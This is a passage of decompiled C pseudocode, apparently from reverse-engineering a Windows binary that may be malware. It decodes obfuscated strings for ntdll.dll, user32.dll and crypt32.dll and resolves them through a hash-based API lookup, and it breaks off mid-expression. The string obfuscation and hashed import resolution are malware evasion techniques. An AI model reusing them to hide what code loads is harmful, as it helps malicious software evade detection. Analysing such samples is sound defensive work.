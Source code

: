 ```c
  v12[10] = 109;
  v12[11] = 1;
  v12[12] = 37;
  v12[13] = 1;
  v12[14] = 111;
  v12[15] = 1;
  v12[16] = 111;
  v12[17] = 1;
  v12[18] = 1;
  v12[19] = 1;
  for ( i = 1LL; i != 21; ++i )
  {
    v2 = (unsigned __int16)(31 * (unsigned __int8)v12[i - 1]
                          + ((unsigned int)(-32509 * (__int16)(31 * (unsigned __int8)v12[i - 1] - 31)) >> 16)
                          - 31);
    v12[i - 1] = (unsigned __int8)(31 * v12[i - 1] - 127 * ((v2 >> 15) + (v2 >> 6)) - 31 + 127) % 0x7Fu;
  }
  ProcAddressFNV_1a(v12);                       // ntdll.dll
  v11 = 0;
  qmemcpy(v12, ";lcl}lwlhl|lMl\rlklklll", 22);
  for ( j = 1LL; j != 23; ++j )
  {
    v4 = (unsigned __int8)v12[j - 1];
    v5 = 19 * v4;
    v6 = (unsigned __int16)(19 * v4 + ((unsigned int)(-32509 * (__int16)(19 * v4 - 2052)) >> 16) - 2052);
    v12[j - 1] = (unsigned __int8)(v5 - 127 * ((v6 >> 15) + (v6 >> 6)) - 4 + 127) % 0x7Fu;
  }
  ProcAddressFNV_1a(v12);                       // user32.dll
  v11 = 0;
  v12[0] = 12;
  qmemcpy(&v12[1], "K{K|K KWK.K@K\tKyKhKhKKK", 23);
  for ( k = 1LL; k != 25; ++k )
    v12[k - 1] = (unsigned __int8)(7 * v12[k - 1]
                                 - 127
                                 * (((unsigned __int16)(7 * (unsigned __int8)v12[k - 1]
                                                      + ((unsigned int)(-32509
                                                                      * (__int16)(7 * (unsigned __int8)v12[k - 1] - 525)) >> 16)
                                                      - 525) >> 15)
                                  + ((unsigned __int16)(7 * (unsigned __int8)v12[k - 1]
                                                      + ((unsigned int)(-32509
                                                                      * (__int16)(7 * (unsigned __int8)v12[k - 1] - 525)) >> 16)
                                                      - 525) >> 6))
                                 - 13
                                 + 127)
               % 0x7Fu;
  ProcAddressFNV_1a(v12);                       // crypt32.dll
  v11 = 0;
  v12[0] = 17;
  v12[1] = 70;
  v12[2] = 8;
  v12[3] = 70;
  v12[4] = 7;
  qmemcpy(&v12[5], "FrF\\F+F.F'F\vF\bF@F@FFF", 21);
  for ( m = 1LL; m != 27; ++m )
  {
    v9 = 18 * (unsigned __int8)v12[m - 1];
    v12[m - 1] = (unsigned __int8)(((unsigned __int16)((unsigned int)(33027 * (__int16)(1260 - v9)) >> 16) >> 15)
```